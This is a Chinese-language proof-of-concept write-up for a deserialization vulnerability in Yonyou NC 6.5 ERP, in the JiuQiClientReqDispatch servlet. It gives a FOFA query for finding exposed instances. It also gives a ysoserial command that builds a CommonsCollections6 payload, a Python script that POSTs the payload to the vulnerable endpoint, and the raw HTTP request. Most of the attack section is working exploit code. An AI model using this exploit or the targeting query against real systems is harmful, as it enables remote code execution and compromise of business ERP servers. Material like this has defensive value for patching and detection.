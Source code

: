 **漏洞描述**

用友NC是一个全面的企业资源规划（ERP）软件，可以帮助中小型企业实现资源规划和管理。该软件综合了财务、销售、采购、库存、生产、人力资源、客户关系管理等业务。

**fofa搜索语句**

app="用友-UFIDA-NC"

**影响版本**

版本号nc6.5产品**漏洞复现**

代码审计moudules/ufoe模块路由时，发现com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch类存在反序列化漏洞。

缺陷代码如下：

![图片](%E7%94%A8%E5%8F%8Bnc65%20jiuqisingleservlet%E5%89%8D%E5%8F%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20POC+%E5%88%86%E6%9E%90.assets/640.png)

### 漏洞复现

①：利用ysoserial生成恶意包。

```
java -jar ysoserial-all.jar CommonsCollections6"calc.exe">nc65.bin
```

②：编写python脚本，读取nc65.bin并构造POST请求。

```yaml

import requests
proxies={"http":"http://127.0.0.1:8888"}
with open("nc65.bin","rb") as f:
 data =
f.read()
url =
"http://192.168.40.146:8010/servlet/~ufoe/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch"
r = requests.post(url=url, data=data, proxies=proxies)
print(r)
```

完整数据包如下：

```yaml
POST
/servlet/~ufoe/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch HTTP/1.1
Host: 192.168.40.149:8010
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 1281

```

